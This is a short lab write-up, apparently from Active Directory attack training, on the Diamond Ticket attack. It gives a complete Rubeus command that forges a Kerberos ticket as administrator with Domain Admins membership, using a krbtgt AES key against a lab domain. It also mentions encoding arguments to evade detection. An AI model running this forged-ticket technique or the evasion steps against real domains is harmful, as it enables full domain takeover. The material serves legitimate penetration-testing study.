 # 💎 Diamond Ticket attack

We can simply use the following Rubeus command to execute the attack. Note that the command needs to be run from an elevated shell (Run as administrator). We take the usual OPSEC care of using Loader and ArgSplit to encode the arguments "diamond"

```
C:\AD\Tools\Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt 
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This will spawn a shell, now we can access the DC

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/diamond-ticket" %}
